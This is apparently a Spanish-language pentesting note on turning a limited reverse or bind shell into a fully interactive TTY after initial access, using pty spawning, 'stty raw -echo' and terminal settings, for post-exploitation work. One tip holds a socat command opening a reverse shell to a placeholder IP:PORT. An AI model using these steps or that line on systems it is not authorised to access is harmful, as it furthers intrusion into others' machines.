

# 🔄 Tratamiento de TTY: Mejorando la Shell Interactiva

> [!info] ¿Por qué es necesario?
> Cuando obtienes acceso inicial a un sistema (mediante reverse shell, bind shell, etc.), normalmente obtienes una TTY limitada que no soporta autocompletado, historial de comandos, o control de procesos. El tratamiento de TTY convierte esta shell básica en una completamente interactiva.

---

## 📋 Tabla de Contenidos
- [Conceptos Fundamentales](#conceptos-fundamentales)
- [Proceso Paso a Paso](#proceso-paso-a-paso)
- [Comandos Explicados](#comandos-explicados)
- [Configuración Avanzada](#configuración-avanzada)
- [Troubleshooting](#troubleshooting)

---

## 🧠 Conceptos Fundamentales

### Estados de la shell



### Diferencias entre tipos de shell

| Característica | Non-Interactive | Semi-Interactive | Full Interactive |
|----------------|-----------------|------------------|------------------|
| **Autocompletado (Tab)** | ❌ | ❌ | ✅ |
| **Historial (↑/↓)** | ❌ | ❌ | ✅ |
| **Control de procesos (Ctrl+C)** | ❌ | ❌ | ✅ |
| **Editores (vi/nano)** | ❌ | Limitado | ✅ |
| **Comandos largos** | ❌ | ❌ | ✅ |
| **Clear screen (Ctrl+L)** | ❌ | ❌ | ✅ |

---

## 🔧 Proceso Paso a Paso

### 1. Spawning de TTY inicial

```bash
# Generar una TTY usando script
script /dev/null -c bash
```

> [!tip] Alternativas para spawning TTY
> ```bash
> # Si Python está disponible
> python -c 'import pty; pty.spawn("/bin/bash")'
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> 
> # Si Perl está disponible
> perl -e 'exec "/bin/bash";'
> 
> # Usando echo
> echo os.system('/bin/bash')
> 
> # Con socat (si está instalado)
> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT
> ```

### 2. Suspender el proceso

```bash
# Enviar el proceso al background
Ctrl + Z
```

> [!warning] ¡No uses Ctrl+C!
> Ctrl+C terminaría la conexión completamente. Solo usa Ctrl+Z para suspender temporalmente.

### 3. Configurar modo raw

```bash
# En tu terminal local (atacante)
stty raw -echo; fg
```

> [!example] ¿Qué hace este comando?
> - **`stty raw`**: Pone el terminal en modo raw, pasando todos los caracteres directamente
> - **`-echo`**: Desactiva el eco local para evitar caracteres duplicados
> - **`fg`**: Trae el proceso suspendido al primer plano

### 4. Reactivar la shell

```bash
# Presionar Enter para reactivar
[Enter]
```

### 5. Configurar variables de entorno

```bash
# Configurar tipo de terminal
export TERM=xterm

# Configurar shell por defecto
export SHELL=bash

# Configurar dimensiones de pantalla (ajustar según tu terminal)
stty rows 44 columns 184
```

---

## 📝 Comandos Explicados

### Comando script detallado

```bash
script /dev/null -c bash
```

| Parámetro | Función |
|-----------|---------|
| `script` | Utility que registra sesiones de terminal |
| `/dev/null` | Descarta la salida de logging |
| `-c bash` | Ejecuta bash como comando |

### Configuración stty

```bash
# Ver configuración actual
stty -a

# Configurar dimensiones manualmente
stty rows [número] columns [número]

# Obtener dimensiones de tu terminal local
echo $LINES $COLUMNS
```

> [!tip] Obtener dimensiones automáticamente
> En tu terminal local (antes de la conexión):
> ```bash
> # Ver dimensiones actuales
> stty size
> 
> # Resultado ejemplo: 44 184
> # rows=44, columns=184
> ```

---

## ⚡ Configuración Avanzada

### Script automatizado para TTY

```bash
#!/bin/bash
# tty_upgrade.sh

echo "[+] Iniciando upgrade de TTY..."

# Paso 1: Spawn TTY
echo "[+] Spawning TTY..."
script /dev/null -c bash

# Este script continuará después del proceso manual
echo "[+] Configurando variables de entorno..."
export TERM=xterm
export SHELL=bash

# Detectar dimensiones automáticamente si es posible
if command -v tput &> /dev/null; then
    ROWS=$(tput lines)
    COLS=$(tput cols)
    stty rows $ROWS columns $COLS
    echo "[+] Dimensiones configuradas: ${ROWS}x${COLS}"
else
    # Valores por defecto
    stty rows 44 columns 184
    echo "[+] Usando dimensiones por defecto: 44x184"
fi

echo "[+] TTY upgrade completado!"
```

### Alias útiles post-upgrade

```bash
# Crear aliases útiles
alias ll='ls -la'
alias la='ls -A'
alias l='ls -CF'
alias ..='cd ..'
alias ...='cd ../..'

# Configurar historial
export HISTSIZE=10000
export HISTFILESIZE=20000
export HISTCONTROL=ignoreboth

# Configurar colores
export LS_COLORS='di=34:ln=35:so=32:pi=33:ex=31:bd=46;34:cd=43;34:su=41;30:sg=46;30'
```

---

## 🔍 Troubleshooting

### Problemas comunes y soluciones

| Problema | Síntoma | Solución |
|----------|---------|----------|
| **Shell no interactiva** | No funciona Tab/historial | Repetir proceso desde paso 1 |
| **Caracteres extraños** | Se ven símbolos raros | Ejecutar `reset` o `stty sane` |
| **Pantalla desordenada** | Layout incorrecto | Ajustar `stty rows/columns` |
| **Ctrl+C no funciona** | No se pueden cancelar procesos | Verificar modo raw activado |
| **Editor no funciona** | vim/nano fallan | Verificar variable `TERM` |

### Comandos de diagnóstico

```bash
# Verificar configuración actual
stty -a

# Resetear terminal si hay problemas
reset

# Configuración limpia
stty sane

# Verificar variables de entorno
echo $TERM
echo $SHELL
env | grep -E "TERM|SHELL|LINES|COLUMNS"
```

### Proceso de recuperación

```bash
# Si algo sale mal, ejecutar en orden:
reset
stty sane
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
clear
```

---

## 🎯 Verificación de funcionalidad

### Checklist post-upgrade

> [!example] Testea estas funciones
> ```bash
> # 1. Autocompletado
> ls /etc/pass[TAB]
> 
> # 2. Historial
> # Presiona flecha arriba ↑
> 
> # 3. Control de procesos
> ping google.com
> # Presiona Ctrl+C para cancelar
> 
> # 4. Editor
> nano test.txt
> # Debería abrir correctamente
> 
> # 5. Clear screen
> # Presiona Ctrl+L
> 
> # 6. Líneas largas
> # Escribe un comando muy largo y edítalo
> ```

### Configuración óptima final

```bash
# Configuración completa recomendada
export TERM=xterm-256color
export SHELL=/bin/bash
export LANG=en_US.UTF-8
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Dimensiones (ajustar según tu pantalla)
stty rows 50 columns 200

# Configuración de historial
export HISTSIZE=10000
export HISTFILESIZE=20000
export HISTCONTROL=ignoreboth:erasedups

# Prompt personalizado
export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
```

> [!success] ¡TTY completamente funcional!
> Una vez completado este proceso, tendrás una shell completamente interactiva con todas las funcionalidades esperadas, lo que facilitará enormemente el trabajo post-explotación.